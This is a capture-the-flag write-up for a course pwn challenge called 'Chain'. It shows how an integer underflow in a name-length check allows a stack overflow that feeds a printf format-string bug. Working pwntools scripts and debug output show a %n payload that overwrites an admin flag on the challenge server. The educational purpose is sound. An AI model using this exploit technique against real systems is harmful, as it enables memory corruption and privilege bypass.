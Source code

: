 ```yaml
---
title: "Tutor CTF: Chain"
description: (500 points) Pwn Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-11 17:49+11:00
lastModified: 2022-04-11 17:49+11:00
notes: ''
prevPage: 40_tutorctf_bus_buddies
nextPage: 42_tutorctf_alice_and_bob
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 41_tutorctf_chain
---
```


## Exploration

We're given just the netcat server IP and port, as well as a single executable `chain`. No source code this time! Let's start by running the script and checking the output:

```term
$ ./chain
How long is your name?
5
Enter your name:
Kevin
Welcome "Kevin
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

So it appears that we can enter in a name length, as well as your actual name. Your name is then printed out, and it appears that we fail some sort of check because we get faced with the message `"Have you tried being a better hacker?"`. A typical thing to try now is a buffer overflow. Let's try entering a super long name:

```term
$ ./chain
How long is your name?
123456
Sorry, get a shorter name
```

Looks like they have a check for the name length. Doing a bit of binary searching, I found the highest length I could enter was 63. Now let's try do a buffer overflow:

```term
$ ./chain
How long is your name?
63
Enter your name:
ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWROGUHWOGUHOWRUGHOWRUGHOWRUGHOWUGHOWURHGOUWHGOWURHGOUWHGOWUHRGOWURHGOWURHGOWURGHOWURGHOWRUGHWORGUHWORGUHWOGHUWORGHUOWRGUHWORGUHOWRUGHOWRUHGOWURGH
Welcome "ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWRO"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like they cut off our name after 62 characters, which is the limit that we set minus 1. Finally, let's try a format strings attack:

```term
$ ./chain
How long is your name?
63
Enter your name:
%x.%x.%x
Welcome "%x.%x.%x
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like it didn't work. It doesn't look like we'll get much more information from this, so let's go ahead and try reverse engineering it.

## Reverse Engineering

Booting up `chain` in Ghidra and doing some variable renaming, we get the following:

![](/blog_posts/41_tutorctf_chain/images/image1.png){width=70%}

So it appears that after entering our name length (stored in `name_len[0]`), they subtract one and use that as an argument for `read()`. However, this is really important, since `name_len[0]` is defined as a unsigned short. That means that if we enter a length of 0, not only does it pass the max length check, it means that after we subtract one from it, our name_length will underflow. That means that we'll able to scan up to 0XFFFF = 65535 characters! Let's try this

```term
$ ./chain
How long is your name?
0
Enter your name:
WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
Welcome "WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�"!
UOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�Have you tried being a better hacker?
```

As we can see, we got far more than 63 characters in the Welcome message. But there's more... Where did the `"Let's see if you are admin..."` message go? It seems to have been replaced with more of the nonsense text from the name we entered. Looking at the Ghidra code, we see that the check admin message was originally stored on the stack. This means that we've now achieved buffer overflow, and have started overwriting the admin message.

But this is critical. We see that on line 56, `printf()` is called directly on the string. That means that admin message string is susceptible to a format string vulnerability attack. Let's start by overwriting the admin message to start with 4B's, and then trying to find where on the stack those B's lie. After a bit of experimentation with pwntools, this is what I came up with

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
buf += f'ABBBB.%24$x'.encode()
conn.sendline(buf)
conn.recvall()
```

Note that I had an extra 'A' at the beginning of the "BBBB" in order to get the bytes to align properly. Sometimes a littl experimentation like this is required. Running this, I got:

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4c bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 42 42 42  42 2e 25 32  34 24 78 0a               │ABBB│B.%2│4$x·│
    0000004c
[+] Receiving all data: Done (147B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x47 bytes:
    b'ABBBB.42424242\n'
    b' you are admin...\n'
    b'Have you tried being a better hacker?\n'
[*] Closed connection to 13.210.180.94 port 12345
```

Notice that at the end, I receive `0x47` bytes, which start with `b'ABBBB.42424242\n'`. The 42's are the hexadecimal representation of 'B', which means that we've managed to find the location of the B's on the stack. From here, all we need to do is replace the B's with the address of `isadmin`, and replace the `%x` with a `%n`. The `%n` will have the effect of writing the number of bytes we've written so far in the printf to the address specified. Note that the exact number of bytes that `%n` will use to write to `isadmin` doesn't matter, as long as it's non zero.

To get the address of `isadmin`, we can use objdump:

```term
$ objdump -t ./chain | grep isadmin
0804a044 g     O .bss	00000004              isadmin
```

I.e. the address is `0x0804a044`. Modifying out python script to the following and running it gets us the flag.

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
# buf += f'ABBBB%24$x\n\x00'.encode()
buf += b'A\x44\xa0\x04\x08%24$n'
conn.sendline(buf)
ret = conn.recvall()
print(ret)
```

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4b bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 44 a0 04  08 25 32 34  24 6e 0a                  │AD··│·%24│$n·│
    0000004b
[+] Receiving all data: Done (357B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x119 bytes:
    00000000  41 44 a0 04  08 0a 66 20  79 6f 75 20  61 72 65 20  │AD··│··f │you │are │
    00000010  61 64 6d 69  6e 2e 2e 2e  0a 43 4f 4d  50 36 38 34  │admi│n...│·COM│P684│
    00000020  31 ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │1{RE│DACT│EDRE│DACT│
    00000030  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │EDRE│DACT│EDRE│DACT│
    00000040  ?? ?? ?? ??  ?? ?? 7d 0a  00 00 00 00  00 00 00 00  │EDRE│DA}·│····│····│
    00000050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000110  00 00 00 00  00 00 00 00  00                        │····│····│·│
    00000119
[*] Closed connection to 13.210.180.94 port 12345
b'\nWelcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\nAD\xa0\x04\x08\nf you are admin...\nCOMP6841{REDACTED}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
> _Note: Bytes replaced with '?', to avoid spoilers._